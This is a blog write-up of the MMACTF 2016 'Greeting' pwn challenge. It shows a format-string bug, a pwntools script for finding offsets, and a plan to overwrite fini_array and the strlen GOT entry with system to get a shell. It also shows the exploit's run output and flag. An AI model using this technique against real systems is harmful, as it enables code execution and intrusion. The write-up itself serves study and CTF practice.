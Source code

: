 Title: MMACTF 2016 - Greeting
Date: 2016-09-05 19:30
Category: CTF
Tags: ctf, mmactf2016, pwn
Slug: mmactf-2016-greeting
Authors: wumb0

Challenge description:
> Pwn  
> Host : pwn2.chal.ctf.westerns.tokyo  
> Port : 16317

## Reversing and Finding the Bug

Reversing with radare2:
<script type="text/javascript" src="https://asciinema.org/a/70ae59xl59b2fksh8uk0gvfv4.js" id="asciicast-70ae59xl59b2fksh8uk0gvfv4" async></script>

Looks like another textbook format string vulnerability because the user buffer is put into `sprintf` and then straight into `printf`. This time I had to actually do the work of getting code execution because the flag was not loaded onto the stack.

## Running the binary
I wanted to see the bug in action so I loaded up my Ubuntu VM using vagrant and checked it out:

```shell
→ ./greeting
Hello, I'm nao!
Please tell me your name... %08x
Nice to meet you, 080487d0 :)
```

Neat. Now for exploitation.

## Background
For information on `printf` and a more basic format string exploit, check out the post I did on the [judgement]({filename}/posts/MMACTF/judgement.md) pwn challenge also from this CTF. In addition to having positional arguments, `printf` also has a cool feature where you can write the number of bytes that have been printed so far to a variable. This feature is what makes format string vulnerabilities so dangerous. If you can exploit one, you can get arbitrary write. 

Passing `%hn` to `printf` in the format string will write up to a half word value of the number of characters written so far. Combining this with positional arguments allows for half a word at a time to be written to anywhere. So this is bad.

If you are interested in learning more about how format string vulnerabilities work then check out [this paper](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)

## Exploitation
I decided to use [libformatstr](https://github.com/hellman/libformatstr) for this because I have never used it before and it seemed useful so I didn't have to craft the buffer manually. 

The payload function takes two arguments: an argument number and a padding number. The offset number is the word distance in memory away from your input and the padding is the number of bytes your input needs to be padded for the addresses you enter to be word aligned. Libformatstr can be used to determine these numbers:

```python
from pwn import *
from libformatstr import *

e = ELF("./greeting")
r = process(e.path)

r.sendline(make_pattern(0x40))
r.recvuntil("you, ")
res = r.recv()
print(res)
argnum, padding = guess_argnum(res, 0x40)
log.info("argnum: {}, padding: {}".format(argnum, padding))
```

Running this resulted in an output of `argnum: 12, padding: 2`. There was one other bit that needed to be changed as well. Since "Nice to meet you, " was being prepended to my input I had to set an additional argument when setting up the format string exploit called `start_num`. 

Armed with the argument number, padding, and start number I was ready to try and overwrite some values. The issue I ran into was that there are no function calls after the call to `printf` in main. I though of trying to overwrite a destructor (dtors), but there were none. I came across a way to overwrite the `fini` section of a binary to execute a function when the program was supposed to be quitting. I could not find much documentation on exactly what I needed to overwrite to make this work so I just used `objdump` and `grep` to find the symbols with `fini` in the name:

```nohighlight
→ objdump -t greeting | grep fini
08048780 l    d  .fini  00000000              .fini
08049934 l    d  .fini_array    00000000              .fini_array
08049934 l     O .fini_array    00000000              __do_global_dtors_aux_fini_array_entry
08048740 g     F .text  00000002              __libc_csu_fini
08048780 g     F .fini  00000000              _fini
```

Five choices. Through trial and error I determined that overwriting whatever was at `__do_global_dtors_aux_fini_array_entry` gave me control of the program. 

My plan of attack became the following:  
1. Overwrite `__do_global_dtors_aux_fini_array_entry` with `main`  
2. Overwrite the GOT entry for `strlen` with `system`  
3. Write the full format string line into the program  
4. When main executes the second time, write `/bin/sh` so that the call to `strlen` in the `getnline` function executes `system("/bin/sh")` and gives me a shell!

I wrote the following script to do the above:
<script src="https://gist.github.com/wumb0/1c3d32efbc3f45aa6d724ce46b7efbdd.js"></script>

Running it resulted in the flag :)
```nohighlight
→ python greet2.py REMOTE
[*] '/home/vagrant/CTF/tokyo/greeting'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
[x] Opening connection to pwn2.chal.ctf.westerns.tokyo on port 16317
[x] Opening connection to pwn2.chal.ctf.westerns.tokyo on port 16317: Trying 40.74.112.206
[+] Opening connection to pwn2.chal.ctf.westerns.tokyo on port 16317: Done
[+] Wrote system onto strlen and main onto fini... trying shell
[+] got shell
[+] Flag: TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}
[*] Closed connection to pwn2.chal.ctf.westerns.tokyo port 16317
```

W00t!  
**TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}**
